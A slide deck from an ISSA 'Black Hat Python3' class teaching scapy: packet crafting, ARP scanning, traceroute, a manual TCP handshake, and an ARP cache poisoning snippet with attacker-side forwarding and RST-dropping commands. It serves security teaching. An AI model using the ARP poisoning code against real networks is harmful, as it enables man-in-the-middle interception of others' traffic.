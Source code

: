 ## Welcome to class 5!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- UDP scanning
- Git commands on local
- Git commands for remote/upstream
- python import techniques
- code reuse (`getwords`)
- context managers

---

## scapy

- python library
- interative tool using Python REPL (shell)
- create, decode, send, receive packets

---

## Interactive scapy shell

```python
>>> IP()
<IP |>
>>> target="www.google.com/30"
>>> ip=IP(dst=target)
>>> ip
<IP  dst=<Net www.google.com/30> |>
>>> ips = [p for p in ip]
>>> ips
[<IP  dst=172.217.4.36 |>, <IP  dst=172.217.4.37 |>, 
 <IP  dst=172.217.4.38 |>, <IP  dst=172.217.4.39 |>]

>>> a = ips[0]
>>> a.dst
172.217.4.36
>>> a.ttl
64
```

---

## Another view

```
>>> str(a)
"b'E\\x00\\x00\\x14\\x00\\x01\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\xac\\xd9\\x04$'"
>>> new_ip = IP(str(a))
>>> new_ip
<IP  version=6 ihl=2 tos=0x27 len=17756 id=30768 flags=MF frag=4188 ttl=120 proto=dsr chksum=0x305c src=120.49.52.92 dst=120.48.48.92 options=[<IPOption  copy_flag=0 optclass=3 option=upstream_multicast_packet length=48 value='1\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\x' |>] |<Raw  load="ac\\xd9\\x04$'" |>>
```

---

## `lsc()`, `ls()`

- IP
- TCP
- ICMP

---

## Common Commands

- rdppcap
- wrpcap
- send
- sr
- sniff
- filter (BPF)

---

## ARP

```python
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
arp = ARP(pdst='192.168.1.69/24')
ans, unans = srp(ether/arp, iface='en0', timeout=2) #Layer2
for snd, rcv in ans:
    print(rcv.sprintf(r"%ARP.psrc% %Ether.src%").split())
```

---

## Scapy Graphics

```python
res, unans = traceroute(['reachtim.com'], dport=[443], maxttl=20, retry=-2)

res.graph()
```

---

```python
hosts = [
    'www.microsoft.com', 'www.cisco.com', 
    'www.yahoo.com', 'www.wanadoo.fr', 
    'www.pacsec.com']

res, unans = traceroute(hosts, dport=[80,443], maxttl=20, retry=-2)
res.graph()
```

---

```python
a = Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"

hexdump(a)

a[0].pdfdump(layer_shift=1)
```
http://www.asciitable.com

---

## BPF

http://biot.com/capstats/bpf.html

---

## Three-way Handshake

- on attacker:
    - `iptables -t filter -I OUTPUT -p tcp --sport 10000 --tcp-flags RST RST -j DROP`
    - mac: `sysctl -w net.inet.ip.forwarding=1`
    - linux: `echo 1 > /proc/sys/net/ipv4/ip_forward`
- on target: `tcpdump -ni any port 8000 -S`


---

```python
me, sport = '192.168.1.69', 10000
them, dport = '192.168.1.100', 8000
#
ip = IP(src=me, dst=them)
syn = TCP(sport=sport, dport=dport, flags='S', seq=1000)
synack = sr1(ip/syn)
ack = TCP(sport=sport, dport=dport, flags='A', seq=synack.ack, ack=synack.seq+1)
send(ip/ack)
```

---

## ARP Poison

- poison ARP cache of two devices
- tell each device attacker MAC is the other's address
- man-in-the-middle: monitor communications

---

## ARP Poison code

```python
mymac = get_if_hwaddr('en0')
victim = '192.168.1.100'
gateway = '192.168.1.254'
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=victim, pdst=gateway)
sendp(packet)
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=gateway, pdst=victim)
sendp(packet)
```

---

## Python Named Tuples

- immutable
- reference values like object properties
- more readable code

```
Point = namedtuple('Point', 'x y')
pt = Point(1.0, 2.0)
pt.x
pt.y
```

---

## ARP Poison Program

`arper.py`

---

## Your Job

- Reading (links below)
- Create your ARP Poison program
- Recreate your network scanner using scapy
- Consider ways to protect against it

---

## Reading


1. https://scapy.net/demo/
2. https://thepacketgeek.com/series/building-network-tools-with-scapy/
3. https://www.cisco.com/c/en/us/products/collateral/switches/catalyst-6500-series-switches/white_paper_c11_603839.html
4. https://codingsec.net/2016/06/arp-spoofing-attack/
5. http://biot.com/capstats/bpf.html


---


## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

